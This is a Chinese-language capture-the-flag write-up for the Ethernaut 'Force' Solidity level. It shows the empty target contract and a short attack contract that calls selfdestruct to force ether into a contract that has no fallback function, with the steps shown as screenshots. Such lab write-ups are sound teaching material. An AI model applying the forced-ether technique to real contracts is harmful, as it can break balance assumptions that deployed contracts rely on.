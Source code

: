 # 7.Force

## 题目描述

![img](/assets/PeiQi-Wiki/img/1645310166968-61bf7c00-6a02-4a84-b26a-f895aa72be1e.png)

## 解题过程

题目源码

```javascript
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Force {/*

                   MEOW ?
         /\_/\   /
    ____/ o o \
  /~____  =ø= /
 (______)__m_m)

*/}
```

题目要求为该合约余额大于0，而源码中不存在 fallback函数，导致合约不能通过常规交易接收以太币。

![img](/assets/PeiQi-Wiki/img/1645310742977-9e519e94-8580-4bce-b8fd-f08ab9203723.png)

我们在官方文档中可以看到一个函数介绍，可以在没有 fallback的情况下强制对合约进行转账

![img](/assets/PeiQi-Wiki/img/1645310796703-eff3f936-8b01-4abc-bac0-d636118592aa.png)



那我们的思路就是部署一个自毁合约，对这个合约转账后进行自毁对目标合约强制转入以太币

![img](/assets/PeiQi-Wiki/img/1645311086893-c7687fa0-ea7f-428e-98b2-f3fc236265fd.png)

部署攻击合约

```javascript
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Force {/*

                   MEOW ?
         /\_/\   /
    ____/ o o \
  /~____  =ø= /
 (______)__m_m)

*/}

contract Attack{
    
    address public addr;
    
    function setAddr(address x) public {
        addr = x;
    }
    
    function kill() public{
        address payable desaddr = payable(address(addr));
        selfdestruct(desaddr);
    }
    receive() external payable {}
}
```

向攻击合约地址转入 0.001 ETH

![img](/assets/PeiQi-Wiki/img/1645312161704-d95d2483-00d4-4c05-bfaf-dce922feb7a8.png)

![img](/assets/PeiQi-Wiki/img/1645312130166-8bf4b2ae-3e55-44f4-90e1-8d7d6f152e0c.png)

向目标合约调用自毁函数

![img](/assets/PeiQi-Wiki/img/1645312357912-61ba040b-d64c-473c-85cd-7a55d0b6881e.png)

查看交易hash是否成功

![img](/assets/PeiQi-Wiki/img/1645312376428-a376d0b7-f266-4525-ad66-937df46c3b46.png)

![img](/assets/PeiQi-Wiki/img/1645312386621-eb7a524d-962c-42bc-812f-40006baca411.png)

目标合约成功被强制转入ETH